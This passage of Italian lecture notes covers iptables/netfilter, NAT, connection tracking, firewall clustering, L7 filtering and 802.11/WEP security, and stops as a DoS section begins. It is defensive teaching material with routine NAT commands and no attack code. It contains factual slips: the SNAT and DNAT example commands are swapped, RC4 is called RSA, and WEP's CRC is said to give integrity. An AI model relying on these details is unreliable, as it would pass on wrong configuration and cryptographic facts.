			\end{itemize}
			
			\textit{Iptables rules \ref{fig:42}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.50]{img/rule.PNG}
				\caption{ip tables rules\label{fig:42}}
			\end{figure}\\
			
			\textbf{Le regole} sono organizzate in:
			\begin{itemize}
				\item \textbf{Catena:} identifica un punto all'interno del percorso nel kernel in cui avviene il filtraggio.
				\item \textbf{Tabella:} associa una funzione alla regola.
			\end{itemize}
			Descriviamo con più dettaglio cosa significa filtrare i pacchetti.\\
			Un firewall è un host a tutti gli effetti che possiede \textbf{almeno 2 schede} di rete, i pacchetti possono arrivare su entrambe le schede, essere filtrati e poi inviati sull'altra (\textbf{forwarding}). Ovviamente se un pacchetto arriva alla scheda uno con IP 1 non si effettuerà il forwarding. Si possono anche \textbf{generare pacchetti} da inviare all'\textbf{esterno}.\\
			
			\textit{Firewall: posizionamento \ref{fig:43}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.50]{img/logic.PNG}
				\caption{Firewall: posizionamento\label{fig:43}}
			\end{figure}\\
			
			\textit{Firewall: posizionamento \ref{fig:44}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.50]{img/logic2.PNG}
				\caption{Firewall: posizionamento\label{fig:44}}
			\end{figure}\\
			
			Il filtraggio dei pacchetti è composto da un insieme di regole che svolgono diverse funzioni in diversi punti di una catena. 
			\begin{itemize}
				\item drop (scartare)
				\item accept (lasciar passare)
				\item mangle (modificare)
				\item ...
				\item lasciar passare e riportare un messaggio nel log
			\end{itemize}
			Importante sottolineare che Netfilter è \textbf{stateful} quindi deve esistere un modulo che \textbf{ricostruisce il flusso di pacchetti correlati} (es stesso ip): questo modulo è \textbf{Conntrack}.\\
			Le regole vengono raggruppate in insiemi di azioni simili che svolgono le stesse funzioni:
			\begin{itemize}
				\item conntrack
				\item mangle
				\item NAT
				\item fitler
			\end{itemize}
			\textbf{All'interno di ogni catena si richiamano regole appartenenti a tabelle differenti}.
			
			\textit{Funzionamento completo\ref{fig:chain}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.70]{img/chain.PNG}
				\caption{Funzionamento completo\label{fig:chain}}
			\end{figure}\\
			
			\subsubsection{Tabella di NAT}
				Una tabella di NAT \textbf{serve a modificare i campi di indirizzo IP all'interno degli header del pacchetto}.
					\begin{itemize}
						\item \textbf{DNAT}: destination address translation, \textbf{si cambia indirizzo di destinazione}. Viene utilizzato dai firewall di frontiera per distribuire il carico su una \textbf{rete con più server.}\\
						iptables -t nat -I POSTROUTING -s 192.168.1.12 -j SNAT –to-source
						150.217.5.123
						\item \textbf{SNAT:} source address modification, si \textbf{cambia l'indirizzo IP sorgente}. Viene utilizzato per mascherare una rete privata, della quale si vuole mantenere gli indirizzi \textbf{non routabili} dietro ad un indirizzo pubblico.\\
						iptables -t nat -I PREROUTING -d 150.217.5.123 -j DNAT –to-destination
						192.168.1.12
					\end{itemize}
			\subsubsection{Tabella di Filter}
				Serve per operare il vero filtraggio dei pacchetti, decide quali passano e quali vengono bloccati. I target possibili sono:
				\begin{itemize}
					\item \textbf{Drop}: il pacchetto viene scartato senza dare risposta al mittente
					\item \textbf{Reject}: il pacchetto è scartato inviando al mittente una risposta di reset
					\item \textbf{Accept}: il pacchetto continua il suo percorso all'interno del kernel
					\item \textbf{Log}: il pacchetto genera un log	
				\end{itemize}
			\subsubsection{Il connection tracking}
				\textbf{Ha lo scopo di mettere in relazione pacchetti diversi, utilizzando una macchina a stati che individua:}
				\begin{itemize}
					\item Frammenti che costituiscono lo stesso pacchetto IP
					\item Pacchetti che fanno parte della stessa connessione
					\item Pacchetti che fanno parte di connessioni distinte ma relazionate tra loro (FTP)
				\end{itemize}
				Queste funzionalità devono essere utilizzate con attenzione o si rischia di saturare le risorse della macchina.\\
				
				\textit{Firewall: posizionamento \ref{fig:45}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.50]{img/conntrack.PNG}
					\caption{Firewall: posizionamento\label{fig:45}}
				\end{figure}\\
				
				Come posso distinguere i pacchetti 1 e 2??\\
				Non possiamo usare il SYN poichè non è conveniente, il problema si riproporrebbe con pacchetti di altri protocolli (UDP). \textbf{Esiste una differenza fondamentale}
				\begin{itemize}
					\item Il pacchetto 1 viene ricevuto dopo aver inviato un pacchetto in uscita
					\item Il pacchetto 2 inizia la connessione
				\end{itemize}
				Il conntrack tiene traccia di queste associazioni ogni pacchetto di (qualsiasi tipo) viene associato ad una \textit{connessione} che può trovarsi in 4 stati:
				\begin{itemize}
					\item NEW: il kernel ha visto passare i pacchetti in una sola direzione
					\item ESTABLISHED: Il kernel ha visto il traffico in entrambe le direzioni
					\item INVALID: nessuna delle precedenti, si è verificato un errore
					\item RELATED: il pacchetto appartiene ad una connessione in qualche modo relazionata a una già ESTABLISHED (FTP)
				\end{itemize}
			
				\textit{Stati per una connessione \ref{fig:46}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.50]{img/state.PNG}
					\caption{Stati per una connessione\label{fig:46}}
				\end{figure}\\
				
			\subsubsection{Fault tolerance and Load Balancing  }
				Il firewall solitamente è un punto di uscita ingresso nella rete dunque \textbf{rappresenta un collo di bottiglia}.\\
				In reti che devono gestire volumi elevati di traffico è importante condividere il carico tra più firewall per avere prestazioni migliori e procedure di backup:
				\begin{itemize}
					\item \textbf{Backup cold swap}: 2 firewall uno acceso l'altro spento. Il secondo si accende dopo la rottura del primo
					\item \textbf{Backup hot swap}: 2 firewall entrambi accesi. Il secondo entra in funzione immediatamente dopo la rottura del primo.
				\end{itemize}
			\subsubsection{Primary-Backup configuration }
				In questo tipo di configurazione si ha un getway che smista il traffico verso i due firewall. Il primary possiede un indirizzo virtuale (\textbf{VIP}) che è quello che vedono le applicazioni dall'esterno. Il \textbf{backup è solitamente inattivo}. Viene utilizzato un protocollo \textit{heartbeat} per controllare lo stato del primary: quando quest'ultimo subisce un guasto l'indirizzo \textbf{VIP viene assegnato al server di backup.} In questo caso:
				\begin{itemize}
					\item Non c'è load balancing
					\item Al momento del guasto cadono tutte le connessioni
					\item C'è spreco di risorse perchè una macchina non fa niente.
				\end{itemize}
			\subsubsection{Multi-Primary multy path firewall cluster}
				La configurazione è similare al caso precedente con la differenza che prima della coppia di firewall si ha un \textbf{load balancer} che distribuisce i flussi di traffico su entrambi i firewall. In questo caso:
				\begin{itemize}
					\item se un firewall si guasta cadono tutte le connessioni,
					\item \textbf{il problema della ridondanza si sposta sul load balancer}.
				\end{itemize}  
			\subsubsection{Multi-primary hash-based stateful firewall cluster}
				In questo caso:
				\begin{itemize}
					\item non abbiamo il load balancer
					\item ogni firewall ha un ID numerico e valuta una connessione secondo la tupla $$T = IP_{s}, IP_{d}, Port_{s}, Port_{s}, Prorocol  $$
					\item per ogni tupla se $$Hash(T)mod 2 == ID $$ allora filtra, altrimenti ignora
					\item in questo modo i firewall si distribuiscono il traffico autonomamente
					\item c'è bisogno comunque di un \textit{heartbeat} per reagire alle situazioni di guasto.
				\end{itemize} 
				\textit{Multy-primary hash based stateful firewall cluster \ref{fig:47}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.50]{img/multipriha.PNG}
					\caption{Multy-primary hash based stateful firewall cluster\label{fig:47}}
				\end{figure}\\
				
			\subsubsection{State replication}
				In tutte queste situazioni \textbf{quando un firewall si guasta si perdono le connessioni attive in quel momento}. Per evitare questa conseguenza è fondamentale che quando una connessione cambia stato, il cambio sia notificato al server di backup. Si può fare secondo due politiche:
				\begin{itemize}
					\item \textbf{su base evento} (ad ogni cambio di stato)
					\item \textbf{update periodici}
				\end{itemize}
				Si ottengono, in relazione alle politiche performance diverse in termini di affidabilità, ma anche costi computazionali differenti.\\
				
				\textit{State replication \ref{fig:48}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.50]{img/staterep.PNG}
					\caption{State replication\label{fig:48}}
				\end{figure}\\
				
		\subsection{L7 Filtering}
			Il filtraggio al livello 7 viene fatto se non è sufficiente utilizzare il numero di porta sorgente e destinazione per capire che tipo di traffico si sta analizzando. Un amministratore di rete può voler filtrare a livello 7 per \textbf{i seguenti motivi}
			\begin{itemize}
				\item Log e analisi del traffico: si vuole sapere che tipo di traffico passa per la vostra rete, in modo tale da poter dimensionare i link e gli apparati
				\item Traffic shaping: si vuole dare priorità ad alcuni flussi piuttosto che ad altri
				\item \textbf{Blocco di alcuni protocolli}: vogliamo evitare che alcuni tipi di traffico passino per la rete
			\end{itemize}
			Filtrare a livello 7è molto difficile, esistono meccanismi interni ai protocolli che rendono difficile collegare connessioni diverse alla stessa connessione, protocolli che intenzionalmente offuscano il proprio tipo o protocolli cifrati. \textbf{Ogni filtro deve essere modellato sull'applicazione specifica e può avere una macchina a stati molto complessa}. \\
			Elenchiamo le principali difficoltà che si incontrano nel filtering L7:
			\begin{itemize}
				\item Implementare macchine a stati complicate per filtrare gigabit di traffico è computazionalmente molto pesante. E’ necessario avere macchine
				dedicate con potenza sufficiente.
				\item I protocolli. E’ possibile che da un giorno al successivo un filtro smetta di
				funzionare causando perdita di performance (falsi negativi) o blocco di
				connessioni legittime (falsi positivi).
				\item Un algoritmo di pattern matching implementato in software ha gli stessi
				problemi di sicurezza di altri applicativi di livello 7. Cosa che
				generalmente è più difficile per firewall di livello più basso.
			\end{itemize} 
			
			COMPLETARE CON vulnerabilità note \\
			
			Quando la banda a disposizione non è sufficiente o si aumenta la banda o si fa \textbf{traffic shaping}. Nel secondo caso si decide di rendere prioritari alcuni traffici piuttosto che altri. In questo modo si ha una \textbf{perdita di neutralità della rete di trasporto}. L perdita di neutralità viene spesso vista come un tentativo di censurare alcuni contenuti.\\
			
	\section{Wireless security}
		\textit{In informatica e telecomunicazioni il termine wireless (dall'inglese senza fili) indica una comunicazione tra dispositivi elettronici che non fa uso di cavi. Generalmente il wireless utilizza onde radio a bassa potenza. }
		\subsection{Panoramica}
			
			La \textbf{mancanza di limite geografico} implica che le informazioni possono essere \textit{sniffate} più facilmente. Inoltre si possono subire attacchi dall'esterno (richio per l'attaccante minimo).\\
			Si ricorda che un \textbf{hotspot} è un punto di accesso alla rete attraverso tecnologia wireless (802.11) in modalità infrastructure. La tecnologia wireless ha il \textbf{vantaggio} di abbattere i costi di gestione, poichè \textbf{non si deve cablare} tutti gli host della rete. Introducono tuttavia diverse \textbf{problematiche di gestione} come la \textbf{limitazione del raggio e la gestione degli accessi}.\\
			
			Modelli di \textbf{topologia di rete}:
			\begin{itemize}
				\item Modello infrastructure
				\item Modello ad-hoc
			\end{itemize}
			
			\textit{Infrastructure vs ad-hoc\ref{fig:49}}\\
			\begin{figure}[h!]
				\centering
				\includegraphics[scale=0.50]{img/panor.PNG}
				\caption{Infrastructure vs ad-hoc\label{fig:49}}
			\end{figure}\\
			
			
			Descriviamo in breve \textbf{reti atipiche} rispetto alla norma.
			\begin{itemize}
				\item \textbf{Reti ad-hoc}:  sono reti \textbf{spontanee} e auto-organizzanti. Possono essere reti allestite per ritrovi temporanei, interventi in situazione di emergenza, reti tattiche e militari, ambienti con mancanza di infrastruttura. Si utilizzano per coprire il \textbf{problema dell'ultimo miglio} e per coprire aree molto estese. Per problema dell'ultimo miglio intendiamo il calo di risorse del canale che si ha in una rete nella parte finale di attacco all'utente, ovvero la rete di accesso.
				\item \textbf{PAN: personal area network}: s\textbf{ono reti di dimensioni ridotte} utilizzate per interconnettere apparati come stampanti, pc cellulari. Normalmente in modalità ad-hoc senza routing. La tecnologia più evoluta è lo standard bluetooth (ieee 802.15)
			\end{itemize}
			Per notizie sulla \textbf{legislazione} guardare slide 8 wireless security.\\
			\subsubsection{WiMax: 802.16}
				Un'altra tecnologia da introdurre è quella \textbf{WiMax}, utilizzate per \textbf{sostituire le connessioni cablate} dalla centrale del gestore alle singole abitazioni (connettendo tra loro più htspot 802.11). Gli standard di riferimento sono l’IEEE 802.16d del 2004, e l’IEEE 802.16e del 2005. Di seguito le caratteristiche più importanti di tale tecnologia:
				\begin{itemize}
					\item WiMax utilizza delle frequenze che \textbf{non sono in banda ISM} (\textit{\textbf{Industrial Scentific Medical}}. \textit{Insieme di porzioni dello spettro elettromagnetico riservate alle applicazioni di radiocomunicazioni non commerciali})
					\item Utilizza uno spettro di frequenze molto ampio (2-66 Ghz) e permette collegamenti (teoricamente) fino a 74Mbps e può essere utilizzato anche su distanze molto grandi (chilometri).
					\item Offre controllo di qualità del servizio a livello MAC.
					\item Offre anche una modalità ad-hoc (mesh)
				\end{itemize} 
			\subsubsection{Bluetooth}
				Tecnologia utilizzata per allestire reti di piccole dimensioni utilizzate per connettere apparati.
				\begin{itemize}
					\item  Frequenze: 2.4 GHz.
					\item Bitrate max: 720Kbps.
					\item Funziona normalmente in modalità ad-hoc.
					\item Distanze: tre categorie di potenza, dai 10 ai 100 metri.
				\end{itemize}
				Citiamo qui altre tecnologie come  Hyperlan2: standard ETSI per reti locali wireless, con
				caratteristiche molto simili a 802.11
				Reti cellulari: GSM, GPRS, UMTS . . .
		\subsection{802.11: Wifi}
			\subsubsection{Storia e caratteristiche}
					\textbf{La differenza sostanziale tra 802.11 ed il WiFi} è che\textbf{ il primo è un insieme di standard} creati dalla IEEE per implementare reti wireless locali e si occupa del livelli 1 e 2, mentre \textbf{il secondo è un trademark} creato dalla Wifi-Alliance che certifica se un determinato dispositivo è conforme agli standard 802.11. \\
				Prima che gli standard 802.11 vengano rilasciati ufficialmente, i maggiori produttori, che formano un consorzio WiFi (detto WiFi Alliance), rilasciano una pre-release e certificazioni sui prodotti hardware. In particolare, il consorzio, per rimediare all’emergenza causata dalle insicurezze riscontrate in tutte le versioni di 802.11 precedenti alla i, anticipa nei propri prodotti una versione incompleta di 802.11i che chiama WPA (Wireless Protected Access). A questa segue WPA2, che corrisponde alla versione aderente a 802.11i. Attualmente esistono molti working group (j, h, f, . . . ) con lo scopo di arricchire il protocollo con nuove caratteristiche quali QoS, fast handoff etc. Negli standard vi è quindi sempre una parte resa volutamente implementation dependent, che ha lo scopo di lasciare parti dello standard libere, in modo che le aziende possano scegliere quali parti dello standard utilizzare
				o personalizzare e quali no. Questa parte serve sostanzialmente per permettere la competizione tra aziende. Di seguito verrà introdotto il funzionamento di 802.11 nelle versioni precedenti alla i.\\
				Di seguito si elencano le caratteristiche dello \textbf{strato fisico}:
				\begin{itemize}
					\item Frequenze: 2.4 - 5 GHz.
					\item Bitrate: 11 - 108 Mbps.
					\item Range: fino a 50m in ambienti indoor, 300m  in ambienti outdoor senza linea di vista.
					\item Permette la mobilità.
				\end{itemize}
			
				
				I tipi di traffico gestito sono i seguenti:
				\begin{itemize}
					\item \textbf{Pacchetti di tipo management}: non trasportano dati ma vengono utilizzati dalle macchine per gestire il traffico dati (pacchetti associazione o deassociazione, di autenticazione o deautenticazione, beacon). \textbf{Non prevedono nessuna forma di cifratura o autenticazione}
					\item \textbf{Pacchetti di tipo control}: non trasportano dati ma sono utilizzati dalle macchine per gestire l'accesso al canale che avviene con politiche CSMA/CA. \textbf{Anche qui nessuna forma di autenticazione o cifratura}.
					\item \textbf{Pacchetti di tipo data}: trasportano contenuto informatico. \textbf{Possono essere cifrati e autenticati}.
				\end{itemize}
			\subsubsection{WEP: Web Equivalent Privacy}
				Il WEP è un insieme di procedure introdotte in 802.11 \textbf{per garantire la privacy e sicurezza della comunicazione, oltre che il controllo degli accessi}. Lo scopo è quello di fornire un livello di sicurezza pari a quello di una rete wired tradizionale. \textbf{Le macchine che appartengono alla rete hanno tutte una chiave comune detta chiave WEP.}\\
				Alcune caratteristiche del protocollo:
				\begin{itemize}
					\item  Prevede una \textbf{fase di autenticazione} in cui una nuova macchina dimostra di possedere la chiave WEP.
					\item Ha un algoritmo di cifratura dei pacchetti di tipo \textbf{stream}.
					\item \textbf{Non sono previste autenticazione di pacchetti relative ad una singola macchina.} Ciò significa che per autenticazione di pacchetti (o frame) si intende stabilire se quest'ultimi sono originati da una macchina che ha accesso legittimo alla rete, senza però assicurare che provenga da una specifica macchina. 
					\item \textbf{Non esistono comunicazioni segrete tra due singole macchine.} Nello specifico gli header dei pacchetti non sono cifrati mentre il payload lo è. Tuttavia quest'ultimo può essere decifrato da tutte le macchine che hanno accesso alla rete, tramite la chiave WEP.
					\item  Non esiste un meccanismo di \textbf{refresh della chiave}.
				\end{itemize}
			\subsubsection{WEP: Autenticazione Shared Key}
				Vediamo nello specifico \textbf{l'autenticazione} che avviene tra un client e l'AP. Il client deve dimostrare di possedere la chiave WEP condivisa:
				\begin{itemize}
					\item Il client chiede di autenticarsi
					\item AP risponde con un \textbf{challenge text}
					\item Il client risponde con il \textbf{challenge text cifrato}.
				\end{itemize}
		
				\textit{Autenticazione \ref{fig:50}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.50]{img/aut.PNG}
					\caption{Autenticazione\label{fig:50}}
				\end{figure}\\
			
				I pacchetti sono pacchetti di \textbf{management} quindi non sono ne autenticati ne cifrati, ne consegue che la procedura è \textbf{molto veloce} e quindi pensata come procedura di handoff rapido anche tra più AP. Quest'ultimo è l'unico elemento che decide chi far entrare nella rete, ciò comporta che la gestione degli accessi è \textbf{tutta a carico dell'AP}. Nel caso di reti gestite da più AP la gestione diviene molto complicata o del tutto statica.\\
				Il \textbf{Generic frame format} è il seguente\\
			
				\textit{Frame WEP \ref{fig:51}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.60]{img/framewep.PNG}
					\caption{Frame WEP\label{fig:51}}
				\end{figure}\\
			
				\textbf{Viene cifrato solo il campo di payload del pacchetto con un algoritmo di tipo stream}. Gli algoritmi di tipo stream \textbf{cifrano il contenuto in chiaro bit per bit}.
				\begin{enumerate}
					\item A partire da un segreto (chiave WEP) si genera un vettore di dati pseudocasuali  (\textbf{Keystream})
					\item Per rendere unico ogni pacchetto si aggiunge al segreto un vettore di inizializzazione, il \textbf{keystream} dipende dalla coppia (segreto, IV)
					\item Si fa lo XOR logico tra il keystream e l'informazione che si vuole cifrare
				\end{enumerate}
				Questo tipo di algoritmi è molto facile e veloce da implementare. Importante specificare che \textbf{riutilizzare lo stesso IV significa ripetere due volte lo stesso keystream}. Se si conosce uno dei due pacchetti in chiaro si ricava anche il secondo. \textbf{Non utilizzare mai lo stesso keystream}.\\
			
				\textit{Algoritmo di cifratura tipo stream  \ref{fig:52}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.50]{img/stream.PNG}
					\caption{Algoritmo di cifratura tipo stream \label{fig:52}}
				\end{figure}\\
				
				Entriamo nel dettaglio di una procedura di encryption con \textbf{RC4}, utilizzato nello standard 802.11 (RC4 utilizza in 802.11b chiavi di 40 bit.
				):
				\begin{enumerate}
					\item Si concatena la chiave WEP con il IV per \textbf{generare il seed}
					\item Il blocco \textbf{WEP PRNG} (pseudo random number generator) \textbf{genera un kyestream a partire dal seed}.
					\item sul plaintext si applica un algoritmo di \textbf{error detection} (CRC32). Il CRC è concatenato al pacchetto in chiaro
					\item Si fa lo XOR con la chiave
					\item Si trasmette il pacchetto IV nell'header (non cifrato) e il payload cifrato.  
				\end{enumerate} 
				
				\textit{Encryption RSA \ref{fig:53}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.60]{img/enrsa.PNG}
					\caption{Encryption RSA\label{fig:53}}
				\end{figure}\\
				
				Per quanto riguarda la decriptazione abbiamo:
				\begin{itemize}
					\item Dal pacchetto si estrae IV e il payload cifrato
					\item Da IV e chiave WEP si ricrea il keystream. 
					\item si fa lo XOR tra keystream e il payload ottenendo il payload in chiaro
					\item Si separa il payload dal CRC e si ricalcola il CRC per verificare l'integrità. Cifrare anche il CRC significa che l'attaccante, se conosce la chiave di cifratura, può modificare il pacchetto ma non può rendere coerente il CRC. Si fornisce dunque \textbf{integrità}
				\end{itemize}
				%\subsubsection{WEP: Autenticazione dei frame}
				%		\begin{enumerate}
				%			\item Sul payload in chiaro si calcola il CRC
				%			\item Si concatena il CRC al payload e si fa lo XOR tra il keystream e il solo payload, ottenendo il payload cifrato.
				%			\item si trasmette il pacchetto
				%			\item  
				%		\end{enumerate}
				
				L'autenticazione dei pacchetti non utilizza algoritmi a chiave pubblica e privata, ci deve essere un \textbf{segreto condiviso in precedenza e quindi un canale sicuro}. Non esistono inoltre controllo sull'unicità dei pacchetti, due pacchetti possono essere identici, inoltre non esiste un controllo di sequenza dei pacchetti, il valore IV viene deciso dagli apparati senza una politica definita. Un attaccante può dunque replicare un pacchetto anche senza conoscerne il significato, saranno i protocolli a livello superiore a gestire i dati, accettandoli o rifiutandoli.
			\subsubsection{WEP: Uscita dalla rete}
				\begin{itemize}
					\item Per deautenticare il client l'AP manda un messaggio di deautenticazione,  il client dovrà ripetere l'autenticazione
					\item Per deassociare un client, l'AP manda un messaggio di deassociazione, il client deve ripere l'associazione.
					\item Se il client riceve un messagio di deautenticazione quando è ancora associato, deve ripetere entrambe le fasi.
					\item si utilizzano pacchetti di tipo management.
				\end{itemize}
			
				\textit{Macchina a stati 802.11: autenticazione/associazione \ref{fig:54}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.50]{img/statemach.PNG}
					\caption{Macchina a stati 802.11: autenticazione associazione\label{fig:54}}
				\end{figure}\\
			
			\subsubsection{802.11: Accesso al canale, Hidden node problem }
				I client connessi alla LAN condividono lo stesso canale fisico con una politica \textbf{CSMA/CA.} Questo tipo di politica serve per la realizzazione dell'accesso multiplo, basato sul rilevamento della portante, in cui i nodi tentano di evitare a priori il verificarsi di collisioni. Il client può \textbf{prenotare il canale} per un per un periodo di tempo specifico, attraverso il campo \textit{duration} nei pacchetti \textbf{ACK/RTS}. Il canale non sarà dunque utilizzabile da altri client in quel periodo di tempo.\\
				In un \textbf{modello infrastructure} l'AP si comporta come \textbf{centro stella}: tutto il traffico è inviato all'AP che lo ridirige ai client (compresi i pacchetti rts cts), mentre in un modello ad-hoc questi pacchetti sono scambiati direttamente tra gli host. \\
				
				Un problema molto noto di questo tipo di accesso è il \textbf{problema del terminale nascosto.} 
				Le ellissi rappresentano le aree di copertura tra l’AP ed i client C1 e C2. In sostanza, l’AP può comunicare con entrambi i client C1 e C2 , ma qualcosa (ad esempio la distanza) impedisce a C1 e C2 di comunicare direttamente tra loro e quindi anche di poter rilevare (\textbf{sensing}) la portante trasmessa
				dall’altro client verso l’AP. In questo contesto è allora possibile che si verifichino collisioni in ricezione sull’AP quando entrambi i client C1 e C2, rilevando il canale libero, trasmettono contemporaneamente verso l’AP. Per evitare collisioni, lo standard IEEE 802.11 permette di usare un meccanismo con il quale la stazione, prima di inviare un frame, richiede la trasmissione di speciali piccoli pacchetti:
				\begin{itemize}
					\item \textbf{RTS} (Request To Send): oltre a riservarsi il mezzo, fa tacere qualsiasi stazione che lo sente.
					\item \textbf{CTS} (Clear To Send): viene inviato dall’AP in risposta all’RTS, e ha il compito di far tacere le
					stazioni nell’immediata vicinanza.
				\end{itemize}	
				Dunque, se ad esempio C1 vuole trasmettere all’AP, invia un messaggio RTS. Se l’AP non sta comunicando con nessun altro nodo, allora invia un messaggio CTS in cui dà il permesso a C1 di trasmettere ed a tutti gli altri nodi (nel caso in Figura 6.6 solo C2 ) indica che in quel momento sta effettuando una comunicazione con un altro nodo.\\
				
					\textit{Problema dell'hidden node \ref{fig:55}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.80]{img/hidden.PNG}
					\caption{Problema dell'hidden node\label{fig:55}}
				\end{figure}\\
				
				Facciamo adesso altre precisazioni su ulteriori caratteristiche e componenti dei meccanismi di gestione del canale. Coinvolti in questi processi ci sono \textbf{beacon frame}. Il beacon è un pacchetto che viene inviato
				dagli AP per segnalare la propria presenza. I contenuti più importanti del Beacon Frame sono: 
				\begin{itemize}
					\item La\textbf{ modalità} (ad-hoc o infrastructure)
					\item \textbf{ESSID} (cioè il nome dell’AP; è necessario specificarlo per entrare
					nella rete durante la fase dell’associazione) e privacy (definisce se l’AP supporta WEP o meno).
				\end{itemize}
				Accenniamo ora al WDS (Wireless Distribution System). E un sistema di scambio di dati tra AP. Quando gli APs vogliono fare routing dei pacchetti tra di loro, per unire due reti distinte fisicamente in una unica rete logica devono utilizzare le interfacce WDS. Sulle interfacce WDS si può utilizzare WEP, ma non esiste associazione o autenticazione. L’utilizzo di interfacce WDS tuttavia sottrae banda per il servizio della rete infrastructure.
				
				
							
		\subsection{Insicurezze di 802.11}
			Le insicurezze che vedremo riguardano le versioni \textbf{a, b, g}, alcune di queste non riguardano gli algoritmi crittografici utilizzati quindi vengono ritrovati anche nella versione \textbf{i} (che sostituisce RSA in favore di altri algoritmi di cifratura). 
			\subsubsection{DoS: autenticazione/associazione}
				Se il servizio di cui l'attaccante vuole interrompere l'erogazione è l'accesso stesso ad internet, il danno in termini economici è rilevante. In contesti \textbf{mission critical} non ci si può permettere di non avere connettività (sistemi real time, scadenze produttive ecc). Oltretutto l'interruzione del servizio rende un'idea di inaffidabilità che allontana l'utente.\\
				Passiamo ora a descrivere il primo DoS che riguarda \textbf{autenticazione/associazione} alla rete. Ricordiamo che tale processo svolge i seguenti passi:
				\begin{enumerate}
					\item Il client chiede di autenticarsi
					\item L'AP invia un challenge text
					\item il client invia il challenge text cifrato con la chiave WEP
				\end{enumerate}
